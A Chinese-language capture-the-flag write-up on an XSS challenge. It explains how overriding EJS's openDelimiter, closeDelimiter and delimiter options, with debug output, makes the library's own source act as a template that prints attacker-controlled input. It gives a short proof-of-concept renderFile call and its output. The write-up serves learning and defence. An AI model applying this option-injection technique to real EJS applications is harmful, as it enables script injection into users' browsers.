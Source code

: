 你可以控制 `filename` 跟 `query`，目標是 XSS。

而 CSP 是 self，意思就是只要做出 `<script src=/>` 跟建構出一個合法的 JS 程式碼就可以拿到 flag 了。

但這邊另一個限制是只能讀取 `src` 底下的檔案，所以你的 template 是有限的。

而解法是利用 EJS 的 options `openDelimiter`、`closeDelimiter` 以及 `delimiter`，讓 EJS 用不同的方式去解析模板。

因為在 EJS 裏面 `<%=` 可以輸出後面接的內容，而 `<%-` 則是可以輸出 unescaped 的內容，所以我一開始的想法是找到符合這種 pattern 的字串，到最後只找到了一半，可以做出 `<script>` 但是屬性內容會被編碼，也找到了合法的 JavaScript 產生方式，總之最後沒做出來。

賽後看了一下其他人的解法，才意識到我忘記了這題是呼叫 node.js 以後輸出，作者的解法是把 debug 設成 true，就可以讓 EJS 輸出 src，而 src 會包含 filename，再利用 filename 可以是一個 object 的特性來傳入任意內容。

或是也可以直接把 `console.log(src)` 放到 template 裡面去。

舉例來說，有一段文字如下：

``` js
  if (opts.debug) {
    console.log(src);
  }
  if (opts.compileDebug && opts.filename) {
    src = src + "\n//# sourceURL=" + sanitizedFilename + "\n";
  }
  // other codes
```

當我們這樣做以後：

``` js
ejs.renderFile('test', {
  'src': {
    helllo: 'world'
  },
  settings: {
    'view options': {
      delimiter: ' ',
      openDelimiter: 'if (opts.debug)',
      closeDelimiter: " if (opts.compileDebug && opts.filename)"
    }
  }
}).then(r => console.log(r));
```

輸出會是：

```
{ helllo: 'world' }
   {
    src = src + "\n//# sourceURL=" + sanitizedFilename + "\n";
  }
  // other codes
```

之所以會這樣，是因為把 delimiter 改掉以後，上面那段文字就等同於是：

``` js
<% {
    console.log(src);
  } %> {
    src = src + "\n//# sourceURL=" + sanitizedFilename + "\n";
  }
  // other codes
```
